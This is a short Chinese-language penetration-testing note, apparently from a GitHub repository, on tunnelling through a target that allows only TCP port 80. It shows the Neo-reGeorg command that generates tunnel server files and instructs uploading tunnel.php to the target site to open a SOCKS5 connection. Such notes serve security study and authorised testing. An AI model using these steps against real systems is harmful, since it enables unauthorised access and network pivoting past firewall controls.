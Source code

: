 # 渗透测试



## 隧道

### 端口过滤

**入站**仅允许TCP 80端口（接收外部请求），**出站**仅允许 TCP 80 端口（已建立的连接），其他端口（如22/SSH、443/HTTPS等）和 ICMP 协议均被阻断。



靶机限制：仅允许通过 80 端口入站，仅允许 80 端口出站，不允许其他任何端口出站。

![image-20250304094331572](./images/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95.assets/image-20250304094331572.png)



Neo-reGeorg 工具生成 php、jsp 文件，上传到网站后可以与目标网站建立 socks5 连接。

生成 tunnel 文件

```
python neoreg.py generate -k 123 -o socks

...
    [+] Mkdir a directory: socks
    [+] Create neoreg server files:
       => socks/tunnel.cs
       => socks/tunnel.go
       => socks/tunnel.ashx
       => socks/tunnel.aspx
       => socks/tunnel.php
       => socks/tunnel.jsp
       => socks/tunnel.jspx
```



将 tunnel.php 文件上传到网站。
